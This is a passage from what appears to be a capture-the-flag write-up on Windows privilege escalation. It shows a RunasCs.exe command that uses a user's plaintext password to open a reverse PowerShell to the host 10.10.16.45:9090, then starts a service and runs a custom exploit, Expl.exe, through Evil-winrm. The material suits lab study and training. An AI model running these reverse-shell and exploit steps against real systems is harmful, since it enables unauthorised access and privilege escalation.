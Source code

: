![Image](/assets/img/post/compiled/image-14.png)

For execute the Expl.exe we need to use RunasCs.exe via Evil-winrm but before to execute the expl.exe we go to generate a reverse shell with RunasCs.exe

```bash
./RunasCs.exe Emily 12345678 powershell.exe -r 10.10.16.45:9090
```

Instant we trying start the service "msiserivce".

```text
Shell with RunasCs.exe
PS>
net start msiservice 
```

```text
Shell with Evil-winrm
PS>
./RunasCs.exe Emily 12345678 "C:\Users\Emily\Documents\Expl.exe"
```
